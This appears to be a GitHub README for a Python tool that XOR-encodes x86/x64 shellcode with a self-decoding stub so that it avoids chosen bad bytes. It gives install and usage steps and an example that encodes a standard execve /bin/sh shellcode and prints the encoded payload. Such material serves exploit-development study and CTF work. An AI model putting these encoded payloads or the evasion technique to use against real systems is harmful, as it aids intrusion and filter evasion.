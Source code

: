 # shellcode_encoder
Shellcode encoder is a simple python program made in order to create self-decoding shellcode using a xor encoder and a simple stub
It supports both x86 and x86-64 shellcode architecture and you can also precise a list of bytes the encoded shellcode shall not contain (bad chars)

## Requirements
* Python >= 3
* nasm
* objdump

## Installation
```bash
git clone https://github.com/Njord0/shellcode_encoder.git
cd shellcode_encoder
chmod +x core.py
```
And... you are ready to use it !

## Usage

You can display the help message using the -h flag:
```sh
./core.py -h

usage: Shellcode encoder [-h] [-b BAD_CHARS] [-a {x86,x64}]

Shellcode encoder - A simple shellcode encoder

optional arguments:
  -h, --help            show this help message and exit
  -b BAD_CHARS, --bad-chars BAD_CHARS
                        The list of unwanted characters, example: Must be in following format: "\x00\x0a\x0b"
  -a {x86,x64}, --arch {x86,x64}
                        The shellcode architecture, if not specified, architecture dection will be performed Supported arch: x86 x64

example: ./core.py -b "\x00\x11\x0b" --random <<< "shellcode_here"
```
Here is an example command with a x86 shellcode:

```sh
./core.py -b "\x00\x11\xa0" <<< "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

[+] Shellcode architecture: x86
[+] Shellcode lenght: 23 bytes
[+] Working xor value: 1

[+] Stub size: 28 bytes
[+] Final size: 51 bytes

\xeb\x15\x5e\x31\xc0\x31\xdb\x31\xc9\xb3\x17\xb0\x01\x31\x04\x0e\x41\x39\xcb\x75\xf8\xff\xe6\xe8\xe6\xff\xff\xff\x30\xc1\x51\x69\x2e\x2e\x72\x69\x69\x2e\x63\x68\x6f\x88\xe2\x51\x52\x88\xe0\xb1\x0a\xcc\x81
```

As you can see `-a` option is not specified but the program was able to determine the architecture of the shellcode, the program is performing an architecture detection but it might not always work.

